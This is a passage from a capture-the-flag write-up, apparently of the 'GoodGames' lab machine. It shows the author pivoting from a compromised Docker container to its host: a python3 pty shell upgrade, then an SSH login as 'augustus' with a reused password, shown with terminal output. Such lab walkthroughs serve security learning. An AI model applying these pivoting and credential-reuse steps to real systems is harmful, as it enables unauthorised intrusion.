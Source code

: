 From the `nmap` scan, we can conclude that `172.19.0.1` should be the Docker host. Additionally, port 22 and 80 is open for `172.19.0.1`.

Now, we can try to `ssh` as `augustus` to `172.19.0.1`!

```bash
root@3a453ab39d3d:/home/augustus# ssh augustus@172.19.0.1
Pseudo-terminal will not be allocated because stdin is not a terminal.
Host key verification failed.
```

Hmm.. it seems like we need to get a proper shell. Lets check if `python` or `python3` is available.

```bash
root@3a453ab39d3d:/home/augustus# which python
/usr/local/bin/python
root@3a453ab39d3d:/home/augustus# which python3
/usr/local/bin/python3
```

Nice! Both `python` versions are available. Lets use `python3` to spawn a shell and then `ssh` as `augustus`.

```bash
root@3a453ab39d3d:/home/augustus# python3 -c 'import pty;pty.spawn("/bin/bash")'
<tus# python3 -c 'import pty;pty.spawn("/bin/bash")'
ssh augustus@172.19.0.1
The authenticity of host '172.19.0.1 (172.19.0.1)' can't be established.
ECDSA key fingerprint is SHA256:AvB4qtTxSVcB0PuHwoPV42/LAJ9TlyPVbd7G6Igzmj0.
Are you sure you want to continue connecting (yes/no)? yes
yes
Warning: Permanently added '172.19.0.1' (ECDSA) to the list of known hosts.
augustus@172.19.0.1's password: superadministrator
...
augustus@GoodGames:~$ sudo -l
-bash: sudo: command not found
augustus@GoodGames:~$ ls
nmap  user.txt
```

Notice that the files in `augustus`'s actual folder seems to mimic the files in the Docker’s `augustus` folder.

```bash
augustus@GoodGames:~$ ls -la
total 5832
drwxr-xr-x 2 augustus augustus    4096 Aug 15 14:18 .
drwxr-xr-x 3 root     root        4096 Oct 19  2021 ..
lrwxrwxrwx 1 root     root           9 Nov  3  2021 .bash_history -> /dev/null
-rw-r--r-- 1 augustus augustus     220 Oct 19  2021 .bash_logout
-rw-r--r-- 1 augustus augustus    3526 Oct 19  2021 .bashrc
-rwxr-xr-x 1 root     root     5944464 Aug 15 13:50 nmap
-rw-r--r-- 1 augustus augustus     807 Oct 19  2021 .profile
-rw-r----- 1 root     augustus      33 Aug 15 14:10 user.txt
```
